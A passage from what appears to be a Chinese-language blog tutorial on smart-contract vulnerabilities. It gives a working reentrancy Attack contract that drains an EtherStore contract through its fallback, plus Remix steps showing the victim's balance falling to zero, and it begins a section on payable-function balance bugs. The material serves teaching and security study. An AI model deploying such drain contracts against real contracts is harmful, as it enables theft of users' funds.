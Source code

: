 ```js
    }
}

contract Attack {
    EtherStore public etherStore;

    constructor(address _etherStoreAddress) {
        etherStore = EtherStore(_etherStoreAddress);
    }

    // Fallback is called when EtherStore sends Ether to this contract.
    fallback() external payable {
        if (address(etherStore).balance >= 1 ether) {
            etherStore.withdraw();
        }
    }

    function attack() external payable {
        require(msg.value >= 1 ether);
        etherStore.deposit{value: 1 ether}();
        etherStore.withdraw();
    }

    // Helper function to check the balance of this contract
    function getBalance() public view returns (uint) {
        return address(this).balance;
    }
}

```

1. 先部署 EtherStore，然后分别用不同的账户 调用 `deposit` 函数，单位选择 ether，value 为 1.

![image-20220201151421686](http://blog-blockchain.xyz/202203260120919.png)

![image-20220201151807345](http://blog-blockchain.xyz/202203260121816.png)

2. 复制 EtherStore 合约地址，作为构造函数参数，选择 Attack 合约，部署(注意去除部署时地址的双引号)!

![image-20220201152451682](http://blog-blockchain.xyz/202203260121425.png)

3. 选择新的账户，同样单位选择 ether，value 为 1，调用 `attack `函数，可见 `Attackt` 合约的账户余额增加，`EtherStore` 的账户余额归零。

最后，感兴趣的话可以阅读 theDAO 的[源码](https://etherscan.io/address/0xbb9bc244d798123fde783fcc1c72d3bb8c189413#code)，漏洞所在的函数为 `splitDAO`

### payable 函数导致合约余额更新

因为当执行函数之前，合约首先是读取交易对象，因此合约的余额会先改变成 原来的余额+msg.value，某些合约可能会未注意合约余额已发生改变，导致漏洞。

```solidity
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

contract payableFunc {
    address public Owner;

    constructor() payable {
        Owner = msg.sender;
    }

    receive() external payable {}

    function withdraw() public payable {
```